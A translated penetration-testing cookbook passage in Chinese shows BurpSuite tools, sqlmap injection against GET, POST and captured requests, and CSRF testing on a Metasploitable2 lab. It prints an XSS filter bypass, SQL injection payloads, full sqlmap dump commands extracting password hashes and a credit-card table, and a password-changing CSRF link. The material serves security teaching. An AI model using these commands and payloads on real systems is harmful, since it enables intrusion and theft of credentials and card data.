

一旦配置好了攻击，你可以点击屏幕顶端的`Intruder`菜单，之后点击`start attack`。这会通过将每个值插入到载荷位置，快速提交一系列请求。为了判断是否存在任何请求生成了完全不同的响应，我们可以将结果按照长度排序。这可以通过点击`Length`表头来完成，通过点击将长度降序排列，我们可以识别出某个长度其它响应的响应。这就是和长度密码相关（碰巧为`password`）的响应。成功的登录尝试会在下一个秘籍中进一步确认，那些我们会讨论 Comparer 的用法。



### 工作原理

BurpSuite Intruder 的原理是自动化载荷操作。它允许用户指定请求中的一个或多个载荷位置，之后提供大量选项，用于配置这些值如何插入到载荷位置。它们会每次迭代后修改。

## 7.10 使用 BurpSuite Comparer（比较器）

在执行 Web 应用评估是，能够轻易识别 HTTP 请求或者响应中的变化非常重要。Comparer 功能通过提供图形化的变化概览，简化了这一过程。这个秘籍中，我们会谈论如何使用 BurpSuite 识别和评估多种服务器响应。

### 准备

为了使用 BurpSuite 对目标执行 Web 应用分析，你需要拥有运行一个或多个 Web 应用的远程系统。所提供的例子中，我们使用 Metasploitable2 实例来完成任务。 Metasploitable2 拥有多种预安装的漏洞 Web 应用，运行在 TCP 80 端口上。配置 Metasploitable2 的更多信息请参考第一章中的“安装 Metasploitable2”秘籍。

此外，你的 Web 浏览器需要配置来通过 BurpSuite 本地实例代理 Web 流量。关于将 BurpSuite 用作浏览器代理的更多信息，请参考第一章的“配置 BurpSuite”一节。

### 操作步骤

任何包含不一致内容的异常通常都值得调查。响应中的变化通常是载荷产生了所需结果的明显标志。在前面使用 BurpSuite Intruder 来爆破 DVWA 登录的演示中，某个特定的载荷生成了比其它更长的响应。为了评估响应的变化，右击事件并点击`Send to Comparer (response)`。



将事件发送给 Comparer 之后，你可以选择屏幕上访的`Comparer`标签页来评估它们。确保之前的响应之一选择为`item 1`，另外的一个响应选择为`item 2`，像这样：



在屏幕下方，存在`compare words `和`compare words `的选项。这里我们选择`compare words `。我们可以看到，响应中一些内容的变化反映了登录成功。任何修改、删除或添加的内容都会在响应当中高亮显式，使其更加易于比较，像这样：



### 工作原理

BurpSuite Comparer 的原理是分析任意两个内容来源，并找出不同。这些不同被识别为修改、删除或添加的内容。快速区分内容中的变化可以用于高效判断特定操作的不同效果。

## 7.11 使用 BurpSuite Repeater（重放器）

在执行 Web 应用评估过程中，很多情况下需求手动测试来利用指定的漏洞。捕获代理中的每个响应、操作并转发非常消耗时间。BurpSuite 的 Repeater 功能通过一致化的操作和提交单个请用，简化了这个过程，并不需要在浏览器中每次重新生成流量。这个秘籍中，我们会讨论如何使用 BurpSuite 执行手动的基于本文的审计。

### 准备

为了使用 BurpSuite 对目标执行 Web 应用分析，你需要拥有运行一个或多个 Web 应用的远程系统。所提供的例子中，我们使用 Metasploitable2 实例来完成任务。 Metasploitable2 拥有多种预安装的漏洞 Web 应用，运行在 TCP 80 端口上。配置 Metasploitable2 的更多信息请参考第一章中的“安装 Metasploitable2”秘籍。

此外，你的 Web 浏览器需要配置来通过 BurpSuite 本地实例代理 Web 流量。关于将 BurpSuite 用作浏览器代理的更多信息，请参考第一章的“配置 BurpSuite”一节。

### 操作步骤

为了使用 BurpSuite Repeater，请求需要通过拦截捕获或者代理历史来发送给它。发送之后，右击请求之后选择`Send to Repeater`，像这样：


在这个例子中，用户生成的请求用于提供名称，服务器以 HTML 响应返回所提供的输入。为了测试跨站脚本的可能性，我们应该在这种攻击中首先注入一系列常见的字符，像这样：



在发送一系列字符之后，我们可以看到，所有字符都在 HTML 内容中返回，没有字符被转义。这很大程度上表示，这个功能存在跨站脚本漏洞。为了测试漏洞是否可以利用，我们可以输入标准的标识请求`<script>alert('xss')</ script>`，像这样：



通过查看返回的 HTML 内容，我们可以看到，开头的`script`标签已经从响应中移除了。这可能表明黑名单禁止在输入中使用`script`标签。黑名单的问题就是，它可以通过修改输入来绕过。这里，我们可以尝试通过修改标签中几个字符的大小写来绕过黑名单，像这样：



通过使用`<ScRiPt>`标签，我们可以看到，强加的限制已经绕过了，开始和闭合标签都包含在响应中。这可以通过在浏览器中输入请求来验证，像这样：



为了评估客户端浏览器中的响应，右击请求之后选择`Request in browser`。这会生成一个 URL，它可以用于重新在已连接到 Burp 代理的浏览器中提交请求。



我们可以手动复制提供的 URL，或者点击`Copy`按钮。这个URL 之后可以粘贴到浏览器中，而且请求会在浏览器中提交。假设跨站脚本攻击是成功的，客户端 JS 代码会在浏览器中渲染，并且屏幕上会出现提示框，像这样：



### 工作原理

BurpSuite Repeater 仅仅通过向 Web 提供文本界面来工作。Repeater 可以让用户通过直接操作请求和远程 Web 服务交互，而不是和 Web 浏览器交互。这在测试真实 HTML 输出比渲染在浏览器中的方式更加重要时非常有用。

## 7.12 使用 BurpSuite Decoder（解码器）

在处理 Web 应用流量时，你会经常看到出于混淆或功能性而编码的内容。BurpSuite Decoder 可以解码请求或响应中的内容，或按需编码内容。这个秘籍中，我们会讨论如何使用 BurpSuite 编码和解码内容。

### 准备

为了使用 BurpSuite 对目标执行 Web 应用分析，你需要拥有运行一个或多个 Web 应用的远程系统。所提供的例子中，我们使用 Metasploitable2 实例来完成任务。 Metasploitable2 拥有多种预安装的漏洞 Web 应用，运行在 TCP 80 端口上。配置 Metasploitable2 的更多信息请参考第一章中的“安装 Metasploitable2”秘籍。

此外，你的 Web 浏览器需要配置来通过 BurpSuite 本地实例代理 Web 流量。关于将 BurpSuite 用作浏览器代理的更多信息，请参考第一章的“配置 BurpSuite”一节。

### 操作步骤

为了向 BurpSuite Decoder 传递指定的值，高亮所需的字符串，右击它，并选择` Send to Decoder`。在下面的例子中，`Cookie`参数的值被发送到了解码器，像这样：



通过点击`Smart decode`按钮，BurpSuite 会自动将编码识别为 URL 编码，并将其解码到编码文本下面的区域中，像这样：



如果 BurpSuite 不能判断编码类型，可以以多种不同编码类型来手动解码，包括 URL、HTML、Base64、ASCII Hex，以及其它。解码器也能够使用`Encode as...`功能来编码输入的字符串。

### 工作原理

BurpSuite Decoder 在和 Web 应用交互时提供了编码和解码的平台。这个工具十分有用，因为 Web 上由多种编码类型经常用于处理和混淆目的。此外，`Smart decode`工具检测任何所提供输入的已知模式或签名，来判断内容所使用的编码类型，并对其解码。

## 7.13 使用 BurpSuite Sequencer（序列器）

Web 应用会话通常由会话 ID 标识来维护，它由随机或伪随机值组成。出于这个原因，随机性通常是这些应用的安全的关键。这个秘籍中，我们会讨论如何使用 BurpSuite Sequencer 来收集生成的值，并测试它们的随机性。

### 准备

为了使用 BurpSuite 对目标执行 Web 应用分析，你需要拥有运行一个或多个 Web 应用的远程系统。所提供的例子中，我们使用 Metasploitable2 实例来完成任务。 Metasploitable2 拥有多种预安装的漏洞 Web 应用，运行在 TCP 80 端口上。配置 Metasploitable2 的更多信息请参考第一章中的“安装 Metasploitable2”秘籍。

此外，你的 Web 浏览器需要配置来通过 BurpSuite 本地实例代理 Web 流量。关于将 BurpSuite 用作浏览器代理的更多信息，请参考第一章的“配置 BurpSuite”一节。

### 操作步骤

为了使用 BurpSuite Sequencer，响应必须包含`Set-Cookie`协议头，或者其它伪随机数的值，测试需要它们来发送。这可以通过HTTP 代理历史或者先于浏览器的响应拦截来完成，像这样：



Burp 会自动使用响应中的所有 Cookie 值填充 Cookie 下拉菜单。作为替代，你可以使用`Custom location `字段，之后点击`Configure `按钮来指定响应中的任何位置用于测试，像这样：



在确定需要测试的值之后，点击`Start live capture`按钮，这会开始提交大量请求来获得参数的附加值。这个例子中，Burp 会提交大量请求，并将 PHPSESSID 从请求中去除。这会导致服务器为每个请求生成新的会话标识。这样一来，我们就可以获得样本值，它们可以用于完成 FIPS  测试。FIPS 测试由一系列测试组成，它们会评估所生成的伪随机数的熵。所有这些测试会以图形格式展示，使其十分易懂，像这样：



对于高准确率和彻底的 FIPS 测试来说，总共需要 20000 个值。但是分析最少可以以 100 个值来执行。除了执行实时捕获之外，`Manual load `标签页可以用于为测试上传或粘贴值的列表。

### 工作原理

BurpSuite Sequencer 对伪随机数样本执行大量不同的数学评估，根据所生成随机数的熵尝试判断其质量。实时捕获可用于生成样本值，它通过提交事先构造的请求，并导致服务器指派新的值。这通常通过从请求中移除现有`Cookie`值，从而使响应以新的`Set-Cookie`协议头的形式，提供新的会话标识来完成。

## 7.14 使用 sqlmap 注入 GET 方法

Web 应用常常接受所提供 URL 内的参数。这些参数通常以 HTTP GET 方法传给服务器。如果任何这些参数随后包含在发给后端数据库的查询语句中，SQL 注入漏洞就可能存在。我们会讨论如何使用 sqlmap 来自动化 HTTP GET 方法请求参数的测试。

### 准备

为了使用 sqlmap 对目标执行 Web 应用分析，你需要拥有运行一个或多个 Web 应用的远程系统。所提供的例子中，我们使用 Metasploitable2 实例来完成任务。 Metasploitable2 拥有多种预安装的漏洞 Web 应用，运行在 TCP 80 端口上。配置 Metasploitable2 的更多信息请参考第一章中的“安装 Metasploitable2”秘籍。

### 操作步骤

为了使用 sqlmap 来测试 HTTP GET 方法参数，你需要使用`-u`参数以及要测试的 URL。这个 URL 应该包含任何 GET 方法参数。此外，如果 Web 内容仅仅通过建立的会话来方法，还需要使用`--cookie`提供与会话对应的 Cookie。

```
root@KaliLinux:~# sqlmap -u "http://172.16.36.135/dvwa/vulnerabilities/ sqli/?id=x&Submit=y" --cookie="security=low; PHPSESSID=bcd9bf2b6171b16f94 3cd20c1651bf8f" --risk=3 --level=5 
                                ** {CUT} ** 
sqlmap identified the following injection points with a total of 279 HTTP(s) requests: 
--
Place: GET 
Parameter: id
    Type: boolean-based blind    
    Title: OR boolean-based blind - WHERE or HAVING clause    
    Payload: id=-2345' OR (1644=1644) AND 'moHu'='moHu&Submit=y
    
    Type: error-based    
    Title: MySQL >= 5.0 AND error-based - WHERE or HAVING clause
    
    Payload: id=x' AND (SELECT 1537 FROM(SELECT COUNT(*),CONCAT(0x3a6b6f 683a,(SELECT (CASE WHEN (1537=1537) THEN 1 ELSE 0 END)),0x3a696a793a,FLO OR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a) AND 'VHVT'='VHVT&Submit=y
    
    Type: UNION query    
    Title: MySQL UNION query (NULL) - 2 columns    
    Payload: id=x' UNION ALL SELECT CONCAT(0x3a6b6f683a,0x7979634f4e716b7 55961,0x3a696a793a),NULL#&Submit=y
    
    Type: AND/OR time-based blind    
    Title: MySQL < 5.0.12 AND time-based blind (heavy query)    
    Payload: id=x' AND 5276=BENCHMARK(5000000,MD5(0x704b5772)) AND 'XiQP'='XiQP&Submit=y 
--

                            ** {TRUNCATED} ** 
```

上面的例子使用了`risk`值`3`和`level`值`5`。这些值定义了所执行测试的风险性和彻底性。更多`risk`和`level`的信息请参考 sqlmap 手册页和帮助文件。执行测试时，sqlmap 会快速将后端数据库识别为 MySQL，并跳过其它测试。如果没有指定任何操作，sqlmap 会仅仅判断是否任何参数存在漏洞，像上个例子那样。在一系列注入尝试之后，sqlmap 判断出`ID`参数存在多种类型的 SQL 注入漏洞。在确认漏洞之后，sqlmap 会执行操作来提取后端数据库的信息。

```
root@KaliLinux:~# sqlmap -u "http://172.16.36.135/dvwa/vulnerabilities/ sqli/?id=x&Submit=y" --cookie="security=low; PHPSESSID=bcd9bf2b6171b16f94 3cd20c1651bf8f" --risk=3 --level=5 --dbs 
                            ** {CUT} ** 

--
[03:38:00] [INFO] the back-end DBMS is MySQL 
web server operating system: Linux Ubuntu 8.04 (Hardy Heron) 
web application technology: PHP 5.2.4, Apache 2.2.8 
back-end DBMS: MySQL 5.0 
[03:38:00] [INFO] fetching database names 
[03:38:00] [WARNING] reflective value(s) found and filtering out 
available databases [7]: 
[*] dvwa
[*] information_schema 
[*] metasploit 
[*] mysql 
[*] owasp10 
[*] tikiwiki 
[*] tikiwiki195
                            ** {TRUNCATED} ** 
```

在上面的例子中，`--dbs`参数用于枚举所有可用的，能通过 SQL 注入访问的数据库。通过名称来判断，它表明列出的数据库直接对应 DVWA 的应用。我们之后可以直接对数据库执行操作。为了提取 DWVA 数据库的所有表的名称，我们可以使用`--tables`参数来让 sqlmap 提取表名称，之后使用`-D`参数指定需要提取的数据库（`dvwa`）。

```
root@KaliLinux:~# sqlmap -u "http://172.16.36.135/dvwa/vulnerabilities/ sqli/?id=x&Submit=y" --cookie="security=low; PHPSESSID=bcd9bf2b6171b16f94 3cd20c1651bf8f" --risk=3 --level=5 --tables -D dvwa 
                            ** {CUT} ** 
Database: dvwa 
[2 tables] 
+-----------+ 
| guestbook | 
| users     | 
+-----------+ 
                            ** {TRUNCATED} ** 
```

这样做，我们可以看到 DVWA 数据库中有两个表。这些表包括`guestbook`和`users`。用户表通常值得提取，因为它通常包含用户名和相关的密码哈希。为了从某个指定表中提取信息，我们可以使用`--dump`参数，之后使用`-D`参数来指定数据库，`-T`参数来指定提取哪个表的内容。

```
root@KaliLinux:~# sqlmap -u "http://172.16.36.135/dvwa/vulnerabilities/ sqli/?id=x&Submit=y" --cookie="security=low; PHPSESSID=bcd9bf2b6171b16f94 3cd20c1651bf8f" --risk=3 --level=5 --dump -D dvwa -T users 
                            ** {CUT} ** 
do you want to crack them via a dictionary-based attack? [Y/n/q] Y 
[03:44:03] [INFO] using hash method 'md5_generic_passwd' 
what dictionary do you want to use?
[1] default dictionary file './txt/wordlist.zip' (press Enter) 
[2] custom dictionary file 
[3] file with list of dictionary files 
> 
[03:44:08] [INFO] using default dictionary 
do you want to use common password suffixes? (slow!) [y/N] N 
                                ** {CUT} ** 
Database: dvwa 
Table: users 
[5 entries] 
+---------+---------+-------------------------------------------------------+---------------------------------------------+-----------+-----------+ 
| user_id | user    | avatar                                                 | password                                    | last_name | first_name | 
+---------+---------+-------------------------------------------------------+---------------------------------------------+-----------+-----------+ 
| 1       | admin   | http://192.168.223.132/dvwa/hackable/users/admin. jpg   | 5f4dcc3b5aa765d61d8327deb882cf99 (password) | admin     | admin      | 
| 2       | gordonb | http://192.168.223.132/dvwa/hackable/users/gordonb. jpg | e99a18c428cb38d5f260853678922e03 (abc123)   | Brown     | Gordon     | 
| 3       | 1337    | http://192.168.223.132/dvwa/hackable/users/1337.jpg    | 8d3533d75ae2c3966d7e0d4fcc69216b (charley)  | Me        | Hack       | 
| 4       | pablo   | http://192.168.223.132/dvwa/hackable/users/pablo. jpg   | 0d107d09f5bbe40cade3de5c71e9e9b7 (letmein)  | Picasso   | Pablo      | 
| 5       | smithy  | http://192.168.223.132/dvwa/hackable/users/smithy. jpg  | 5f4dcc3b5aa765d61d8327deb882cf99 (password) | Smith     | Bob        | 
+---------+---------+-------------------------------------------------------+---------------------------------------------+-----------+-----------+ 
                                ** {TRUNCATED} **
```

在识别表的内容中存在密码哈希之后，sqlmap 会提供选项，询问用户是否使用内置的密码破解器来对枚举密码哈希执行字典攻击。这可以使用内置单词列表，自定义单词列表，或者一系列单词列表来执行。在执行字典攻击之后，我们可以看到表的内容包含用户 ID，用户头像的位置，MD5 哈希，哈希的纯文本附加值（盐），以及用户姓名。

### 工作原理

sqlmap 的原理是提交来自大量已知 SQL 注入查询列表的请求。它在近几年间已经高度优化，并给予之前查询的响应来智能调整注入。在 HTTP GET 参数上执行 SQL 注入非常繁琐，因为修改内容要经过请求 URL 。

## 7.15 使用 sqlmap 注入 POST 方法

sqlmap 是 Kali 中的集成命令行工具，它通过自动化整个流程，极大降低了手动利用 SQL 注入漏洞所需的经历总量。这个秘籍中，我们会讨论如何使用 sqlmap 来自动化 HTTP POST 请求参数的测试。

### 准备

为了使用 sqlmap 对目标执行 Web 应用分析，你需要拥有运行一个或多个 Web 应用的远程系统。所提供的例子中，我们使用 Metasploitable2 实例来完成任务。 Metasploitable2 拥有多种预安装的漏洞 Web 应用，运行在 TCP 80 端口上。配置 Metasploitable2 的更多信息请参考第一章中的“安装 Metasploitable2”秘籍。

为了在使用 HTTP POST 方法的服务上指定 SQL 注入，我们需要使用`--data`参数来指定 POST 参数字符串。Mutillidae 的登录应用提供了一个登录页面，它通过 POST 方法传递用户名和密码。它就是我们的 SQL 注入攻击目标。看看下面的例子：

```
root@KaliLinux:~# sqlmap -u "http://172.16.36.135/mutillidae/index. php?page=login.php" --data="username=user&password=pass&login-php-submitbutton=Login" --level=5 --risk=3 
                        ** {CUT} ** 
sqlmap identified the following injection points with a total of 267 HTTP(s) requests:
--
Place: POST 
Parameter: username    
    Type: boolean-based blind    
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)    
    Payload: username=-8082' OR (4556=4556)#&password=pass&login-phpsubmit-button=Login
    
    Type: error-based    
    Title: MySQL >= 5.0 AND error-based - WHERE or HAVING clause    
    Payload: username=user' AND (SELECT 3261 FROM(SELECT COUNT(*),CONCAT( 0x3a61746d3a,(SELECT (CASE WHEN (3261=3261) THEN 1 ELSE 0 END)),0x3a76676 23a,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x) a) AND 'MraR'='MraR&password=pass&login-php-submit-button=Login 
--
[04:14:10] [INFO] the back-end DBMS is MySQL 
web server operating system: Linux Ubuntu 8.04 (Hardy Heron)
web application technology: PHP 5.2.4, Apache 2.2.8 
back-end DBMS: MySQL 5.0 
                        ** {TRUNCATED} ** 
```

如果没有指定操作，sqlmap 仅仅会判断是否任何参数存在漏洞，像上面的例子那样。在一系列注入尝试之后，sqlmap 判断出用户名 POST 参数存在`boolean-blind`和`error-based`漏洞。在确认漏洞之后，sqlmap 会执行操作，开始从后端数据库提取信息。

```
root@KaliLinux:~# sqlmap -u "http://172.16.36.135/mutillidae/index. php?page=login.php" --data="username=user&password=pass&login-php-submitbutton=Login" --dbs 
                        ** {CUT} ** 
available databases [7]: 
[*] dvwa 
[*] information_schema 
[*] metasploit 
[*] mysql 
[*] owasp10 
[*] tikiwiki 
[*] tikiwiki195 
                        ** {TRUNCATED} **
```

在上面的例子中，`--dbs`参数用于枚举所有可用的，可通过 SQL 注入访问的数据库。我们随后可以对特定数据库直接执行操作。为了提取`owasp10`数据库中的所有表的名称，我们可以使用`--tables`参数让 sqlmap 提取表名称。之后使用`-D`参数来指定从哪个数据库（`owasp10`）提取名称。

```
root@KaliLinux:~# sqlmap -u "http://172.16.36.135/mutillidae/index. php?page=login.php" --data="username=user&password=pass&login-php-submitbutton=Login" --tables -D owasp10 
                    ** {CUT} ** 
Database: owasp10 
[6 tables] 
+----------------+ 
| accounts       | 
| blogs_table    | 
| captured_data  | 
| credit_cards   | 
| hitlog         | 
| pen_test_tools | 
+----------------+ 
                    ** {TRUNCATED} ** 
```

这样做，我们就可以看到，`owasp10`数据库中存在六个表。这些表包含`accounts, blog_table, captured_data, credit_cards, hitlog, and pen_test_tools`。最明显的表名称是`credit_cards`。为了提取某个指定表的内容，我们可以使用`--dump`参数，之后使用`-D`参数来指定数据库，`-T`参数来指定从哪个表中提取内容。

```
root@KaliLinux:~# sqlmap -u "http://172.16.36.135/mutillidae/index. php?page=login.php" --data="username=user&password=pass&login-php-submitbutton=Login" --dump -D owasp10 -T credit_cards 
                    ** {CUT} ** 
Database: owasp10 
Table: credit_cards 
[5 entries] 
+------+-----+------------------+------------+ 
| ccid | ccv | ccnumber         | expiration | +------+-----+------------------+------------+ 
| 1    | 745 | 4444111122223333 | 2012-03-01 |
| 2    | 722 | 7746536337776330 | 2015-04-01 | 
| 3    | 461 | 8242325748474749 | 2016-03-01 | 
| 4    | 230 | 7725653200487633 | 2017-06-01 | 
| 5    | 627 | 1234567812345678 | 2018-11-01 | +------+-----+------------------+------------+ 
                    ** {TRUNCATED} **
```

### 工作原理

sqlmap 的原理是提交来自大量已知 SQL 注入查询列表的请求。它在近几年间已经高度优化，并给予之前查询的响应来智能调整注入。在 HTTP POST 参数上执行 SQL 注入的原理是操作添加到 POST 方法请求末尾的数据。

## 7.16 使用 sqlmap 注入捕获的请求

为了简化 sqlmap 的使用流程，可以使用来自 BurpSuite 的捕获请求并使用定义在其中的所有参数和配置来执行 sqlmap。在这个秘籍中，我们会讨论如何使用 sqlmap 来测试和所捕获请求相关的参数。

### 准备

为了使用 sqlmap 对目标执行 Web 应用分析，你需要拥有运行一个或多个 Web 应用的远程系统。所提供的例子中，我们使用 Metasploitable2 实例来完成任务。 Metasploitable2 拥有多种预安装的漏洞 Web 应用，运行在 TCP 80 端口上。配置 Metasploitable2 的更多信息请参考第一章中的“安装 Metasploitable2”秘籍。

### 操作步骤

为了在 sqlmap 中使用捕获的请求，必须首先将其保存为文本格式。为了这样做，右击 BurpSuite 中的请求内容之后选择`Copy to file`。保存之后，你就可以通过浏览器目录并使用`cat`命令来验证文件内容。

```
root@KaliLinux:~# cat dvwa_capture 
GET /dvwa/vulnerabilities/sqli_blind/?id=test_here&Submit=Submit HTTP/1.1
Host: 172.16.36.135 
User-Agent: Mozilla/5.0 (X11; Linux i686; rv:18.0) Gecko/20100101 Firefox/18.0 Iceweasel/18.0.1 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8 
Accept-Language: en-US,en;q=0.5 
Accept-Encoding: gzip, deflate 
Referer: http://172.16.36.135/dvwa/vulnerabilities/sqli_blind/ 
Cookie: security=low; PHPSESSID=8aa4a24cd6087911eca39c1cb95a7b0c 
Connection: keep-alive 
```

为了使用捕获的请求，以 `-r`参数执行 sqlmap，值为文件的绝对路径。这个方式通常会极大降低在`sqlmap`命令中需要提供的信息量，因为需要提供的多数信息都包含在文件里了。看看下面的例子：

```
oot@KaliLinux:~# sqlmap -r /root/dvwa_capture --level=5 --risk=3 -p id
[*] starting at 16:44:09
[16:44:09] [INFO] parsing HTTP request from '/root/dvwa_capture' 
```

在上面的例子中，不需要向 sqlmap 传递任何 Cookie 值，因为 Cookie 值已经定义在捕获的请求中了。当 sqlmap 运行时，捕获文件中的 Cookie 会自动在所有请求中使用，像这样：

```
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N 
sqlmap identified the following injection points with a total of 487 HTTP(s) requests: 
--
Place: GET 
Parameter: id
    Type: boolean-based blind 
    Title: OR boolean-based blind - WHERE or HAVING clause    
    Payload: id=-8210' OR (7740=7740) AND 'ZUCk'='ZUCk&Submit=Submit
    
    Type: UNION query    
    Title: MySQL UNION query (NULL) - 2 columns    
    Payload: id=test_here' UNION ALL SELECT NULL,CONCAT(0x3a6f63723a,0x67 744e67787a6157674e,0x3a756c753a)#&Submit=Submit
    
    Type: AND/OR time-based blind    
    Title: MySQL < 5.0.12 AND time-based blind (heavy query)    
    Payload: id=test_here' AND 4329=BENCHMARK(5000000,MD5(0x486a7a4a)) AND 'ARpD'='ARpD&Submit=Submit 
```

sqlmap 能够测试捕获请求中的所有识别的 GET 方法参数。这里，我们可以看到，`ID`参数存在多个 SQL 注入漏洞。

### 工作原理

sqlmap 能够接受捕获的请求，来解析请求的内容并是被任何可测试的参数。这让 sqlmap 能够高效执行，而不需要花费额外的经历来传递攻击所需的所有参数。

## 7.17 自动化 CSRF 测试

跨站请求伪造（CSRF）是最难以理解的 Web 应用漏洞之一。无论如何，不能够识别这类漏洞会危害 Web 应用和它的用户。这个秘籍中，我们会讨论如何测试 GET 和 POST 方法中的 CSRF 漏洞。

### 准备

为了对目标执行 CSRF 测试，你需要拥有运行一个或多个含有 CSRF 漏洞的 Web 应用的远程系统。所提供的例子中，我们使用 Metasploitable2 实例来完成任务。 Metasploitable2 拥有多种预安装的漏洞 Web 应用，运行在 TCP 80 端口上。配置 Metasploitable2 的更多信息请参考第一章中的“安装 Metasploitable2”秘籍。

### 操作步骤

CSRF 可能会出现在 GET 或 POST 方法的事务中，DVWA 提供了 GET 方法 CSRF 漏洞的一个良好示例。应用允许用户通过 GET 方法提交新的值两次来更新密码。

```
GET /dvwa/vulnerabilities/csrf/?password_new=password&password_ conf=password&Change=Change HTTP/1.1 
Host: 172.16.36.135 User-Agent: Mozilla/5.0 (X11; Linux i686; rv:18.0) Gecko/20100101 Firefox/18.0 Iceweasel/18.0.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8 
Accept-Language: en-US,en;q=0.5 
Accept-Encoding: gzip, deflate 
Referer: http://172.16.36.135/dvwa/vulnerabilities/csrf/ 
Cookie: security=low; PHPSESSID=8aa4a24cd6087911eca39c1cb95a7b0c 
```

由于缺少 CSRF 控制，我们尝试利用这个漏洞。如果 Web 应用的用户被引诱来访问某个 URL，其中含有预先配置的`password_ new `和`password_ conf`值，攻击者就能强迫受害者将密码修改为攻击者的选择。下面的 URL 是个利用的示例。如果受害者访问了这个链接，它们的密码会被修改为`compromised`。

```
http://172.16.36.135/dvwa/vulnerabilities/csrf/?password_ new=compromised&password_conf=compromised&Change=Change#
```

但是，这种可以简单利用的 CSRF 漏洞很少存在。这是因为多数开发者对安全拥有起码的终止，不会使用 GET 方法参数来执行安全事务。POST 方法 CSRF 的一个例子是 Mutillidae  应用的 `blog`功能，像这样：

```
POST /mutillidae/index.php?page=add-to-your-blog.php HTTP/1.1 
Host: 172.16.36.135 
